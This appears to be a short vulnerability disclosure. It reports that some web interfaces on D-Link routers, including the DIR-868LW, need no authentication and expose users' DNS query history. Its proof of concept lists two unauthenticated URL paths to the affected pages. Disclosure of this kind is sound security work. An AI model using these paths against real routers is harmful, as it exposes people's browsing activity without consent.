

### Info of Vulnerability
D-Link routers have some web interfaces without authentication requirements. An attacker can remotely obtain users' DNS query history.

Vulnerable targets include but are not limited to the latest firmware versions of DIR-868LW

### POC
http://targetip/mydlink/get_LogDnsQuery.asp
http://targetip/common/get_LogDnsQuery.asp

